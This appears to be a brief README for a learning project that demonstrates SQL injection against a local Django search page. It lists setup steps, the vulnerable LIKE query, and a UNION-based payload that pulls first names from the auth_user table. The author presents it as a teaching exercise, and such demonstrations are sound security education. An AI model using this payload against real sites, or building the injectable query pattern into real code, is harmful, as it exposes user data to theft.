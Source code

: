 How to perform a SQL Injection Attack

Steps

- pip install Django
- python manage.py runsever
- http://127.0.0.1:8000/items/search
- SELECT name FROM orders_item WHERE name LIKE '%' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '%'
- Search for "z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '"

addint a test line. Just for learning reasons.
